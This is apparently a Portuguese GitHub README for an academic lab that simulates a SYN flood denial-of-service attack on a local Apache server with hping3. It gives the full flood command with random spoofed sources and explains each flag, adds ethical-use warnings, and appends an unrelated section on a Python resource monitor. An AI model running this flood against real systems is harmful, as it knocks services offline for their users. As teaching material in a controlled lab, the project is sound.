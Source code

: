 
---

# Simulação de Ataque DDoS  

Este projeto tem como objetivo simular um ataque DDoS (Distributed Denial of Service) em um servidor, utilizando a técnica **SYN Flood** para explorar vulnerabilidades na camada de transporte do modelo OSI.

---

## 📋 Sobre o Ataque  

### SYN Flood  
O **SYN Flood** é um tipo de ataque de negação de serviço (Denial of Service - DoS) que utiliza requisições TCP SYN para sobrecarregar o servidor, esgotando seus recursos e impedindo que ele processe novas conexões legítimas.

---

## 🚀 Preparação do Ambiente  

### Requisitos  
1. **Sistema Operacional Linux:** Utilize o **WSL2** (Windows Subsystem for Linux) para executar o subsistema Linux.  
2. **Ferramentas Necessárias:**  
   - Apache Server  
   - Hping3  

---

## 🛠️ Passo a Passo  

### 1. Configuração do Servidor  

#### Instalar o Apache Server  
Execute o comando abaixo para instalar o servidor Apache:  

```bash  
sudo apt-get install apache2  
```  

#### Iniciar o Servidor  
Ative e inicie o serviço do Apache:  

```bash  
sudo systemctl enable apache2  
sudo systemctl start apache2  
```  

#### Verificar o Status do Servidor  
Certifique-se de que o servidor está rodando:  

```bash  
sudo systemctl status apache2  
```  

#### Acessar o Conteúdo do Servidor  
1. Descubra o IP local do servidor:  
   ```bash  
   hostname -I  
   ```  
   (O comando retorna o IP local. Use a letra "I" maiúscula.)  
2. Copie o IP retornado e cole no navegador. A página inicial do servidor será exibida.  

---

### 2. Realizar o Ataque  

#### Instalar o Hping3  
Instale a ferramenta **hping3**, que será usada para simular o ataque:  

```bash  
sudo apt install hping3  
```  

#### Executar o Ataque SYN Flood  
Utilize o seguinte comando para realizar o ataque no servidor:  

```bash  
sudo hping3 -S -p 80 --flood --rand-source [IP_DO_SERVIDOR]  
```  

- **-S**: Envia pacotes SYN.  
- **-p 80**: Alvo na porta 80 (HTTP).  
- **--flood**: Envia pacotes continuamente.  
- **--rand-source**: Usa IPs de origem aleatórios.  
- **[IP_DO_SERVIDOR]**: Substitua pelo IP do servidor identificado no passo anterior.  

---

## ⚠️ Avisos  

- **Uso Ético:** Este trabalho é destinado exclusivamente para fins acadêmicos. Ataques DDoS são ilegais se realizados sem autorização.  
- **Impacto:** Realize o teste em um ambiente controlado para evitar prejudicar outros sistemas.  

--- 

Com essa estrutura, o conteúdo está mais organizado, com explicações claras e formatadas.


## Repositórios de referência: 
https://github.com/dunossauro/live-de-python/blob/main/codigo/Live206/dunotop.py

#### Sobre o código

Neste repositório construímos em python um fornedor de dados como: Memória principal e Swap, Bateria, CPU e alguns outros para monitorar os pedidos e recursos utilizados no WSL.

Antes de rodar, certifique-se de ter o python3 já instalado em sua distribuição linux.

Em seguida, execute:

```bash  
 pip install -r requirements.txt  
``` 
(caso não funcione, instale as dependências usando 

```bash  
   apt get python3-<NOMEDADEP>
``` 
)

